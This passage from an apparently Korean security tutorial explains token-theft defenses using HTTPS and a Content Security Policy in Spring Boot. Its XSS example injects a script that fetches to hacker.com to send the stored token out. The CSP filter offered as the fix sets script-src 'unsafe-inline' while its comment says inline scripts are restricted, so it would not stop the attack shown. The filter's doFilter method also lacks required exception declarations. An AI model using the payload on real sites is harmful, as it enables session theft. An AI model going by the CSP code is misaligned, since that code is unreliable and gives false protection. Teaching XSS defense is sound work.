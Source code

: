 ```java
}
```

**방어 효과:**
```
👤 사용자 ─── HTTPS (암호화) ───> 🖥️ 서버
🔒 TLS/SSL 암호화로 패킷 내용 보호
         ↓
🕵️ 공격자: "암호화된 데이터만 보임, 토큰 못 훔침"
```

### 3. CSP (Content Security Policy) 적용

#### 문제: XSS로 악성 스크립트 실행
```html
<!-- 공격자가 댓글 등에 악성 스크립트 삽입 -->
<div class="comment">
  안녕하세요! 
  <script>
    // 😈 악성 코드 실행
    fetch('http://hacker.com/steal', {
      body: localStorage.getItem('token')
    });
  </script>
</div>
```

#### 해결책: CSP 헤더 설정
```java
// Spring Boot에서 CSP 헤더 설정
@Configuration
public class SecurityConfig {
    
    @Bean
    public FilterRegistrationBean<CSPFilter> cspFilter() {
        FilterRegistrationBean<CSPFilter> registrationBean = new FilterRegistrationBean<>();
        registrationBean.setFilter(new CSPFilter());
        registrationBean.addUrlPatterns("/*");
        return registrationBean;
    }
}

public class CSPFilter implements Filter {
    
    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) {
        HttpServletResponse httpResponse = (HttpServletResponse) response;
        
        httpResponse.setHeader("Content-Security-Policy", 
            "default-src 'self'; " +                    // 자신의 도메인만 허용
            "script-src 'self' 'unsafe-inline'; " +     // 인라인 스크립트 제한
            "connect-src 'self' https://api.myapp.com; " + // API 호출 도메인 제한
            "img-src 'self' data: https:; " +            // 이미지 소스 제한
            "style-src 'self' 'unsafe-inline'"          // CSS 스타일 제한
        );
        
        chain.doFilter(request, response);
    }
}
```
